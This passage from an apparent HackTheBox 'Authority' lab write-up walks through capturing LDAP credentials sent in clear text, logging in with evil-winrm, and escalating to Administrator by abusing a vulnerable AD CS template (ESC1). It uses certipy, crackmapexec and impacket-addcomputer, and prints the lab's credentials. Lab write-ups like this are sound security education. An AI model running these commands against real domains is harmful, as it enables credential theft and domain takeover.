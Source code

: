 From my interpretation of this, there's a preconfigured profile that has credentials. These credentials are being sent to the LDAP service running on the machine (10.10.11.222) to test whether authentication to a service is successful or not. However, by adding our own ip to the LDAP URLs, the website is also sending credentials to us in clear text because we specified LDAP and not LDAPS. There's probably more going on in the background, but this is essentially what's going on. 

Now with these credentials, we're able to evil-winrm into the svc_ldap user. I guessed this becasue the port for winrm (5985) was open. This was not shown in the nmap scan earlier, but a quick port scan will show that it is open. 

~~~bash
evil-winrm -u svc_ldap -p lDaP_1n_th3_cle4r! -i 10.10.11.222
~~~

Like all other HTB labs, if we go to the desktop of the user, we will find the user flag. 

## Privesc
---

This is my favorite part because I think it's really interesting in how you impersonate the Administrator using tools like certipy. By default, certipy is installed on Kali Linux, however it's named certipy-ad. It does the same thing, just a different name. One thing you will need to download is "ntpdate". This is just a simple "sudo apt install" command, but you will most likely need this because of how kerberos uses timestamps for their tickets. (I will make a post about kerberos in the future)

We already know/assume that this machine is a Windows CA computer, so what we can do is use a tool called Certipy by Oliver Lyak (ly4k). This is a powerful tool designed to abuse certificate misconfigurations. This is possible because certificates use templates to simplify the task of administering certificates. It's like using a Jekyll template for your website like I am. However, with these templates, there may be misconfigurations such as dangerous permissions, which is what we'll be abusing. 

First, we can run the command:

~~~bash
# This logs into the svc_ldap user and searches for vulnerable certificate templates
certipy-ad find -u svc_ldap@authority.htb -p lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222 -vulnerable
~~~

After this is finished running we see the file "20240529162010_Certipy.txt". If we cat out this file, we see that the CorpVPN template allows Domain Computer enrollment rights. This is very bad because any computer can simply request a certificate and impersonate a user, which is what we'll do. 

If we scroll down further in the file we see that it's clearly vulnerable to ESC1. If we go to HackTricks' AD CS section, we see an example of how to abuse ESC1, but before we do this, we need to add a computer to the domain. This is needed because only Domain Computers have access to enrollment rights, but the svc_ldap user isn't a computer. By default, all users have the ability to add 10 computers to the domain. We don't know why but it is so. Now since we create the computer, we know the username and password. As a result, we can use the new computer's credentials to request certificates. This can all be done remotely from your Kali. 

~~~bash
# This checks whether the user has permissions to add computers. This is defined by the MachineAccountQuota (MAQ)
crackmapexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M MAQ

# this creates a new computer named "something$" and the password "wefwefwef" (the $ shows that it's a computer being created)
impacket-addcomputer -computer-name 'something$' -computer-pass 'wefwefwef' -dc-ip 10.10.11.222 -baseDN DC=authority,DC=htb 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -debug

# this saves a file named administrator.pfx (the file maybe named differently. It's a little weird.)
certipy-ad req -username something$ -password wefwefwef -target-ip authority.htb -ca 'AUTHORITY-CA' -template 'CorpVPN' -upn 'administrator@authority.htb' -debug

# We authenticate using the .pfx file to login as the administrator. 
~~~